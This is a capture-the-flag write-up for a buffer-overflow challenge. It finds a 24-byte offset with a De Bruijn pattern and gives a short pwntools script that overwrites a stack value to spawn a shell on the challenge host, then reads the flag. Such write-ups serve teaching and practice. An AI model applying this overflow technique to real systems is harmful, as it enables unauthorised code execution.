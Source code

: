Running the program normally:

![Running the program normally](pinch_me2.png)

Taking a look at the program disassembly, we can see a comparison happening in `sym.vuln` between `rbp-0x8` and `0x1337c0de`.
If they are equal then a shell is spawned, if not then the program terminates normally.

![Disassembly](pinch_me3.png)

![Comparison](pinch_me4.png)

Since we can see a call to fgets to grab input from stdin, we may have a buffer overflow here we can exploit to overwrite the stack and value at `rbp-0x8` along with it. We will use a DeBrujin pattern to determine the `rbp-0x8` offset where we will need to place `0x1337code`.

![Generate DeBrujin](pinch_me5.png)

We start up our debugger, feed the DeBrujin sequence in as input, and set a breakpoint before the comparison happens:

![Debugging](pinch_me6.png)

After running the program and inspecting the stack and the value of `rbp-0x8`, we can see that we were able to overwrite it with the value `Aa8Aa9Ab`.

![Stack overwritten](pinch_me7.png)

We will look for the value of `Aa8Aa9Ab` within our DeBrujin sequence. We determine that the offset value is 24.

![Finding the offset](pinch_me8.png)

Now all we need to do is send over our payload consisting of:
```
(padding of 24 characters) + 0x1337code
```

We can easily use pwntools to create the exploit:
```python
#!/usr/bin/python3
from pwn import *

p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

pad = 24 * b'A'
payload1 = pad
payload1 += p64(0x000000001337c0de)

p.sendlineafter('Am I dreaming?\n',payload1)
p.interactive()
```

Using this exploit, we are able to get a shell locally.

Running this remotely, we get a shell and can access the flag by running `cat flag.txt`:

![Flag](pinch_me9.png)

Flag: `dfctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}`
